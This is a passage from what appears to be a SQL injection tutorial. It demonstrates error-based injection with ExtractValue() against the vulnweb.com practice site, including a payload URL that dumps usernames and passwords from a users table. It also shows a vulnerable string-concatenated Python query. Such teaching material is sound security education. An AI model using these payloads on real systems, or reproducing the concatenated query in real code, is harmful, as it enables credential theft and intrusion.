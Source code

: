 ![Desktop View](/assets/img/posts/fundamentals-of-sql-injection/sql16.jpg)
<br>
This time we have returned a function result as an error message and modified the function as we wanted.
<br>
As you can see from the picure, result of the `database()` helper function **acuart** is in the error message.
### Extract value with subquery
Instead of passing `database()` function as a second argument for `ExtractValue()` method, creating subquery with `()` will
allow you to write your own queries.
<br>
**I am assuming that you read the previous chapters and got the table names already for this example.**
<br>
<http://testphp.vulnweb.com/listproducts.php?cat=extractvalue(rand(),concat(1,(SELECT concat(%22Username: %22,uname,%22  Password:%22,pass) FROM users)))>
<br>
![Desktop View](/assets/img/posts/fundamentals-of-sql-injection/sql17.jpg)
<br>


## (1' and 1=1 #) AND (1 ' or 1=1 #)

We have figured out the existence of the SQLi with **2-1**.However this due to the fact that, the code at the backend is
written in this syntax:
```python
query="SELECT * FROM news WHERE id ="+id
```
When we make a request to the `www.xyz.com/?id=2-1`, the server side code interpret and runs query like this:
```sql
SELECT * FROM news WHERE id = 2-1
--Which returns
+-----+
| 2-1 |
+-----+
|   1 |
+-----+
```
